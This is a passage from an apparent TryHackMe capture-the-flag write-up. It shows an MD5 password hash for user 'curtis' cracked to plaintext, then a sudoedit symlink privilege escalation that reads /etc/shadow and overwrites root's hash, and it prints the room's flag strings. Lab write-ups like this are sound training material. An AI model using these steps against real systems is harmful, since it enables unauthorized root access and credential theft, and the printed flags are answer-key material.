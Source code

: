![](/assets/img/thm/yotp/10.png)

Now finding our other password in the text, we can see a pattern. we know that md5 hash consists of 32 characters so we will copy the next 32 characters after the username `curtis`:

![](/assets/img/thm/yotp/11.png)

And so we get the following hash :
```
a80bfe309ecaafcea1ea6cb3677971f2
```

Crackstation results :

![](/assets/img/thm/yotp/12.png)

password:`Donald1983$`

and the password for `curtis` works.

![](/assets/img/thm/yotp/13.png)

-------------
## Flag 2

![](/assets/img/thm/yotp/14.png)

```
THM{Y2Q2N2M1NzNmYTQzYTI4ODliYzkzMmZh}
```
------------
## Privilege Escalation - root

![](/assets/img/thm/yotp/15.png)

hmm, So I found this exploit which I can use: [# Sudo 1.8.14 (RHEL 5/6/7 / Ubuntu) - 'Sudoedit' Unauthorized Privilege Escalation](https://www.exploit-db.com/exploits/37710)

```sh
ln -s /etc/shadow /var/www/html/a/b/config.php
sudoedit /var/www/html/a/b/config.php
```

Changing the password of `root` to that of `curtis`:

![](/assets/img/thm/yotp/16.png)

We gained root:

![](/assets/img/thm/yotp/17.png)

-------------
## Flag 3

![](/assets/img/thm/yotp/18.png)

```
THM{MjcxNmVmYjNhYzdkZDc0M2RkNTZhNDA0}
```
